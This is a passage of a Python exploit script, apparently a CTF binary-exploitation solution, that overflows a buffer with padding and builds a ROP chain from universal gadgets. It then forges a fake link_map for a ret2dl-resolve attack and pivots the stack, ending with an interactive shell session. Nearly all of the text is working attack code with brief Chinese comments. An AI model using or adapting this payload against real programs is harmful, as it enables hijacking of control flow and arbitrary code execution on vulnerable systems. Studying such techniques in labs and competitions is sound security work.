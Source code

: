 ```
    fake_link_map += p64(fake_Elf64_Dyn_JMPREL_addr)
    return fake_link_map

fake_link_map = fake_link_map_gen(link_map_addr,l_addr,elf.got['__libc_start_main'])
 
payload = 'a'*0x80
payload += p64(rbp)
payload += p64(universal_gadget1)
payload += p64(0)  #pop rbx
payload += p64(1)  #pop rbp
payload += p64(elf.got['read'])  #pop r12
payload += p64(len(fake_link_map)+0x18)		#pop r13
payload += p64(write_addr)  #pop r14
payload += p64(0)           #pop r15
payload += p64(universal_gadget2)  #ret
payload += p64(0)*7
payload += p64(main)
 
p.sendafter('Input:\n',payload.ljust(0x200,'\x00'))
sleep(1)
 
fake_info = p64(0x4004A6)        #ret #_dl_runtime_resolve(link_map, reloc_arg)
fake_info += p64(link_map_addr)
fake_info += p64(0)							 #reloc_arg为0
fake_info += fake_link_map
p.send(fake_info)
 
payload = 'a'*0x80+p64(rbp)+p64(pop_rdi_ret)+p64(link_map_addr+0x78)+p64(leave)
#stack pivot,进入函数重定向
p.sendafter('Input:\n',payload)
 
p.interactive()
```

